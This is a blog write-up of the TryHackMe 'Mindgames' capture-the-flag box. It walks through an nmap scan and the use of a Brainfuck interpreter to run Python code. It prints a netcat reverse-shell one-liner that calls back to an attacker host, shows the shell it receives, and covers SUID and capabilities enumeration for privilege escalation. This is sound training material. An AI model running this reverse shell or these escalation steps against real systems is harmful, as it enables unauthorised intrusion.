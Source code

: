 ```yaml
---
title: Mindgames
tags: THM ctf linux
article_header:
  type: cover
published: true
author: krill
---
```

Just a terrible idea...

<!--more-->

## Enumeration

So much emphasis on enumeration, it is the key to successfully exploit a box.
nmap scan: 

`nmap -F -sV -sC -r -n 10.10.163.89 --min-rate 1000` 

```bash
    ┌─[krill@anonsurf]─[~/Boxes/THM/mindgames]
    └──╼ $nmap -F -sV -sC -r -n 10.10.163.89 --min-rate 1000  
    Starting Nmap 7.91 ( https://nmap.org ) at 2022-05-08 02:45 WAT
    Nmap scan report for 10.10.163.89
    Host is up (0.46s latency).
    Not shown: 98 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
    |   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
    |_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
    80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
    |_http-title: Mindgames.
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 33.29 seconds
```

The nmap result shows that the box has 2 open ports; port 22 and 80, running an ssh server(OpenSSH 7.6p1) and an http server(Golang net/http).


### Golang net/http server [port: 80]
Visiting the webpage running on port 80, found some sort of esoteric programming; **Brainfuck** it is;  
![port 80](/images/THM/mindgames/page1.png)

`Brainfuck is an esoteric programming language created in 1993 by a Swiss physics student named Urban Müller, Brainfuck was an attempt to create a language with the smallest possible compiler` 

Also, right beneath, we've got a brainfuck code interpreter; Check it out!   
Pasting the Fibonacci brainfuck code, gives what looks like a Fibonacci sequence of number. .  mmmm..  
![compiler](/images/THM/mindgames/page2.png)

Decoding this with [`dcode`](https://www.dcode.fr/brainfuck-language) gives us a python code; noice :ghost: 

```python
def F(n):
    if n <= 1:
        return 1
    return F(n-1)+F(n-2)


for i in range(10):
    print(F(i))
``` 
now it's obvious uhn; let's pop a reverse shell with this ``python-netcat mega-combo oneliner``
:trollface:   
```python
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <IP> <PORT> >/tmp/f")
```


## Exploitation
### Foothold: Initial access :bomb:
Since we know that the brainfuck interpreter executes any python code(in brainfuck) that we put into it, we can convert the above python reverse shell to brainfuck and execute it, using [`this site`](https://copy.sh/brainfuck/text.html).    

#### Listener: 
Create a netcat lilstener, to listen for incoming connections and also give us a shell.  
```bash
nc -lvnp 4444
```

#### Execution:
with the netcat listener running, paste the brainfuck-python reverse-shell code and run.  
you should get a shell just like this;  
```bash
┌─[krill@anonsurf]─[~/Boxes/THM/mindgames]
└──╼ $nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.2.126.43] from (UNKNOWN) [10.10.142.47] 49824
bash: cannot set terminal process group (734): Inappropriate ioctl for device
bash: no job control in this shell
mindgames@mindgames:~/webserver$ 
```
we got a shell with a user with low priviledges, we need to escalate :triumph:

### Priviledge Escalation
#### Root Hunting: Vertical privEsc :arrow_up:

with the current user, we can check for possible privesc vectors; 

#### SUID Bits:
you can check for suid bits using the following command:
```bash
find / -type f -perm -u=s 2>/dev/null 
```
```bash
mindgames@mindgames:~/webserver$ find / -type f -perm -u=s 2>/dev/null
/bin/ping
/bin/fusermount
/bin/umount
/bin/su
/bin/mount
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9066/bin/mount
/snap/core/9066/bin/ping
/snap/core/9066/bin/ping6
/snap/core/9066/bin/su
/snap/core/9066/bin/umount
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9066/usr/lib/openssh/ssh-keysign
/snap/core/9066/usr/lib/snapd/snap-confine
/snap/core/9066/usr/sbin/pppd
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/traceroute6.iputils
/usr/bin/passwd
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/newuidmap
```
looking through this, i didn't find any privesc vector(there most likely is, maybe a zeroday.) 

#### Capabilities:
wait a sec, what are capabilities? 
```text
Linux Capabilities are used to allow binaries (executed by non-root users) to perform privileged operations without providing them all root priviledges.
```
checking for capabilities with the following command, gave something interesting :bulb:  
```bash
getcap -r / 2>/dev/null
```
```bash   
mindgames@mindgames:~/webserver$  getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
```

ooph, we meet again `openssl cap_setuid+ep` :smirk_cat:   
i already wrote a post on how to exploit this capability to get a root shell~   
check [`it`](https://krill-x7.github.io/2022/05/08/linuxPrivEsc.html) out.

## Conclusion
finally, you made it to the end GG . 

_sayonara~:beers:_



